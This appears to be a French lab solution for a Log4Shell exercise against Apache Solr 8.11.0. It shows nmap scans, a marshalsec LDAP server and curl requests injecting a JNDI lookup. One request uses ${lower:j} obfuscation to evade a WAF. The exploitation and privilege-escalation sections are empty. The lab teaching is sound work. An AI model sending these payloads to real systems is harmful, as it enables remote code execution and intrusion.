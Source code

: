 # Ce fichier a but pour de donner la solution du TP 'Red_Log4Shell'
# Les adresse IP ne sont pas forcément identiques.
# Cette solution sera en 4 parties :
## Partie   I : Reconnaissance
`nmap -sP 172.17.17.0/24`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 08:17 EDT
Nmap scan report for 172.17.17.2
Host is up (0.13s latency).
Nmap scan report for kali (172.17.17.139)
Host is up (1.3s latency).
Nmap scan report for 172.17.17.165
Host is up (0.40s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 18.89 seconds
```

`nmap -sS -sV -A -p- 172.17.17.165`
```
Nmap scan report for 172.17.17.165
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2:7f:fc:28:53:0e:cf:2e:ca:71:fc:e7:1d:73:2f:6f (RSA)
|   256 25:58:a7:ff:9c:b7:5e:23:80:70:d4:f0:7c:1b:c2:39 (ECDSA)
|_  256 a5:8e:7b:b7:f6:d1:4c:fb:68:3f:3f:f7:ff:39:1d:29 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
MAC Address: 00:0C:29:C5:4E:A5 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: RedBlueLab.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE
HOP RTT      ADDRESS
1   14.86 ms 172.17.17.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.69 seconds
```
![Capture d'écran de la version d'Apache Solr](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/solr_version.png)

## Partie  II : Recherche d'une vulnérabilité sur l'application découverte
Maintenant que nous avons obtenu la technologie utilisée et les versions des applications, il faut explorer les potentielles vulnérabilités présentes sur ces applications. Ici, en cherchant sur internet, nous pouvons découvrir que sur la version 8.11.0. d’Apache Solr, la vulnérabilité Log4Shell est possible. Au chemin "/solr/admin/cores" du site tous les paramètres fournis sur cette page sont interprétés par Log4J.

Pour l’instant, tout ça reste hypothétique, il va falloir tester.
Pour réaliser l’attaque,il sera nécessaire d’ouvrir un serveur un serveur LDAP sur notre machine attaquante. En continuant nos recherches, l’outil "marshalsec" se révèle très utile. Nous aurons besoin d’un serveur Web, que l’on pourra obtenir facilement avec python.

Avant toute chose, il faut installer la même version de java que celle de l’application.
- Télécharger le paquet Java 8u181 <br>
`$ wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz`

- Décompresser le paquet <br>
`$ tar -xzf jdk-8u181-linux-x64.tar.gz`

Ensuite, regardons si le point d’injection est correct, nous allons simplement initialiser une connexion LDAP vers notre machine attaque grâce à l’API JNDI.
Il faut ouvrir un serveur sur la machine attaquante avec la commande suivante : <br>
`$ jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#Payload"`

Il n’est pas encore nécessaire de spécifier un serveur Web car il s’agit d’un test.
Comme la charge utile doit être présente dans un paramètre, la requête qui sera envoyée ressemblera à ceci :<br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=$\{jndi:ldap://172.17.17.139:1389\}'`

L’exécution de cette commande, nous renvoie l’erreur suivante : <br>
![Capture d'écran de l'erreur](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/erreur_waf.png)

Cette erreur peut nous faire penser qu’un WAF bloque notre requête, essayons la même commande mais avec un peu d’obfuscation : <br>
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=${${lower:j}ndi:ldap://172.17.17.139:1389\}'`

Cette fois une connexion a bien été enregistrée sur notre serveur LDAP, ce qui signifie que l’application Web est belle et bien vulnérable à Log4Shell. <br>
![Capture d'écran de la réponse du serveur LDAP](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ldap_local.png)

Nous pouvons aussi voir que le serveur LDAP redirige vers un serveur Web.

## Partie III : Exploitation de la vulnérabilité trouvée


## Partie  IV : Escalade de privilège


